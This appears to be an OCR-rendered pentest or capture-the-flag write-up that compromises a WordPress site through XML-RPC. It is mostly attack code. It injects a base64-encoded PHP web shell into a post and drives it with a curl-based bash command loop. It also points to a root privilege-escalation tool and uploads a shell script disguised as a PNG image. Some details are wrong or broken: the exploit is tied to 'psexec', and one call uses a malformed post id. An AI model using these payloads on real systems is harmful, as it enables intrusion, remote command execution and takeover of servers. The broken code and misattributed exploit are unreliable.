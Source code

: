 ```python
# Inserting malicious PHP code via post content
post[0].content = '<!-- wp:paragraph --><p>[Malicious code here]</p><!-- /wp:paragraph -->'
client.call(posts.EditPost(post[0].id, post))
```

### Time to poisoning: 
```python
post[0]
malicious_post = post[0]
malicious_post.content
malicious_post.content =  '<!-- wp:paragraph -->\n<p>Post content</p>\n<!-- /wp:paragraph -->\n\n<!-- wp:php-everywhere-block/php {"code":"PD9waHAKCWVjaG8gIjxwcmU+IiAuIHNoZWxsX2V4ZWMoJF9SRVFVRVNUWydjbWQnXSkgLiAiPC9wcmU+IjsKPz4K,"version":"3.0.0"} /-->\n\n<!-- wp:paragraph -->\n<p></p>\n<!-- /wp:paragraph -->\n\n<!-- wp:paragraph -->\n<p></p>\n<!-- /wp:paragraph -->'
client.call(posts.EditPost(malicious_post.content.id, malicious_post))
```



We must receive a `True` response.

To create a reverse shell in bash, you can use the following script:

```bash
#!/bin/bash

# Catching Ctrl+C
function ctrl_c(){
    echo -e "\n[!] Exiting..\n"
    exit 1
}

trap ctrl_c INT

main_url="http://host_ip_address/index.php/2022/01/28/hello-world/?cmd="

while [ "$command" != "exit" ]; do
    echo -n "$~ " && read -r command
    command=$(echo "$command 2>%261" | tr ' ' '+')
    curl -s -X GET "$main_url$command" | sed 's/<pre>//' | sed 's/<\/pre>//'
done
```

Additionally, to escalate privileges on the system, methods like those described at [https://github.com/kimusan/pkwner](https://github.com/kimusan/pkwner) can be utilized. These methods take advantage of known vulnerabilities to gain root access, often through the `psexec` binary.

Finally, to bypass file upload restrictions, you can disguise bash scripts as images and upload them via Python using XML-RPC:

```python
from wordpress_xmlrpc import Client, media
from wordpress_xmlrpc.methods import media

client = Client("http://host_ip_address/xmlrpc.php", 'admin', 'password')
with open("pkwner.sh", "r") as f:
    file = f.read()
fileToUpload = { 'name': 'a.png', 'bits': file, 'type': 'text/plain' }
response = client.call(media.UploadFile(fileToUpload))
print(response)
```
